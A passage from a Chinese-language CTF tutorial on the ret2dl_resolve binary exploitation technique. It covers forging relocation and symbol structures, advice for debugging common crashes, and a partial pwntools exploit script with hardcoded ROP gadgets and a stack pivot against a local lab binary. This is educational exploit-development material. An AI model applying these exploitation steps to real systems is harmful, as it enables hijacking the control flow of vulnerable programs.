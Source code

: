 ```
payload+=p32(plt0)
payload+=p32(reloc_arg)
payload+=fake_rel

p.sendline(payload)
p.interactive()
```

可以看到call结束之后，直接进入了read函数。

因为我们赋给r_info =0x107，正好读取了read的SYM结构

[![](https://s2.ax1x.com/2019/09/30/uYXgVf.png)](https://s2.ax1x.com/2019/09/30/uYXgVf.png)

### <a class="reference-link" name="FAKE_SYM%E9%83%A8%E5%88%86"></a>FAKE_SYM部分

经验：在写ret2dl方法的时候，一般不是一气呵成的。先尝试把数据布置在bss段中，然后调试程序，确定代码的位置，然后再修改reloc_arg、fake_rel和fake_sym结构里面的参数到正确的位置。否则，一下子是很难拿写出来的。

```
Q1：程序退出，0177这种报错，说明是查找dysn，却没有找到对应的内容。需要重新检查构造的SYM结构。
```

[![](https://s2.ax1x.com/2019/09/30/uYX2a8.png)](https://s2.ax1x.com/2019/09/30/uYX2a8.png)

```
Q2：SIGSEGV报错，还是一样的栈过低问题。也可能是r_info读取位置错了，读到其他段里面去了。
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2019/09/30/uYXRIS.png)

```
Q3：symbol lookup error ，读取sym结构错误，（ECX中显示）应该是读取的位置不正确。
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2019/09/30/uYXhGQ.png)

根据前文，我们可以写出一个满是补丁的EXP，并且包含大量硬编码。

```
# -*- coding: utf-8 -*-
from pwn import *

p=process('./pwn01')
gdb.attach(p,'b *0x80484b1')

Address=0x12345678
fake_ecx=0x804a05a

buf=0x804a040
fake_esp=fake_ecx-0x4
base_stage=fake_esp+0x800
read_plt=0xf7ed2b00
stack_size=0x500

gadget1=0x0804851b #pop ebp |ret
gadget2=0x08048519 #  pop esi ; pop edi ; pop ebp ; ret
gadget3=0x080483c5 # leave ；ret
#New stack
payload="A"*0xe
payload+=p32(fake_ecx)
payload+="BBBB"
#payload+=p32(read_plt)
#payload+=p32(gadget2)
```